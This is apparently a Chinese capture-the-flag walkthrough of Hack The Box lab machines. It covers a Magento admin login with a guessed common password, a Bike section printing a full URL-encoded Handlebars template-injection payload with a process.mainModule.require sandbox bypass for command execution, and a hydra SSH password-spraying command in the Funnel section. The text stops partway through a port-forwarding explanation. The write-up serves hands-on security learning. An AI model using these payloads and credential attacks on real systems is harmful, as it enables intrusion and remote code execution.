 扫描发现仅 80 端口开放，浏览器访问跳转到 ignition.htb，修改 hosts 文件即可正常访问。目录爆破发现 `/admin` 是一个 Magento 后台登录页面，搜索发现 Magento 要求密码长度 >= 7 个字符，且至少包含一个字母和一个数字。根据密码要求、题目末位提示以及 [2023 最常见密码列表](https://mailsafi.com/blog/top-200-most-common-passwords/)，使用 `qwerty123` 成功登录，登录后在后台 Dashboard 页面直接获得 flag。

### Bike

扫描发现 22 和 80 端口开放，其中 80 端口上运行 Nodejs 服务，whatweb 显示采用了 Express 框架。在输入框中尝试输入内容并提交，发现会直接回显。根据题目提示提交 `{{7*7}}` 尝试模版注入发现报错，报错信息中含有模版引擎信息 handlebars。

因此，可以使用 Hacktricks 上的 [handlebars 模版注入 payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)，经过 URL 编码后在 Burpsuite 中发送：

```
POST / HTTP/1.1
...

email=%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D&action=Submit
```

这段 payload 的核心在于 `return require('child_process').exec('whoami');`，即使用 `require` 加载了 `child_process` 模块并执行命令。但发送后我们得到了 `ReferenceError: require is not defined` 的错误，这可能是因为模版引擎通常在沙箱中执行代码，而这个沙箱中禁用了 `require` 语法。

因此考虑其他方法，在 Node.js 文档中发现存在全局变量 `process`，其中包含了当前进程的信息，而 `process.mainModule` 会返回当前进程的主进程，而主进程是不在沙箱里的因此可以调用 `require` 。这样我们只需要把 payload 核心改为：

```js
return process.mainModule.require("child_process").execSync("whoami");
```

再发送即，注意使用 `execSync` 确保能在命令执行完后返回结果。

### Funnel

扫描发现 21 和 22 端口开放，FTP 尝试匿名登录发现可以成功。在 FTP 服务器上发现 password_policy.pdf 中存在默认密码信息，在 welcome 文件中发现多个用户名信息。用默认密码逐一尝试 SSH 登陆这些用户，发现可以成功登录 christine 用户。

或者也可以用 hydra：

```bash
$ hydra -L usernames.txt -p 'funnel123#!#' <box_ip> ssh
```

登录后检查监听端口，通过 `ss -tl` 发现 `127.0.0.1:5432` 可能运行 postgresql 服务。但是这台主机上没有安装与 postgresql 交互的 CLI 工具 `psql`，因此我们需要从本地主机连接服务。由于服务监听在 127.0.0.1，我们需要通过本地端口转发，使得发送到我们本地主机 2345 端口的流量通过 SSH 隧道转发到远程主机的 5432 端口：
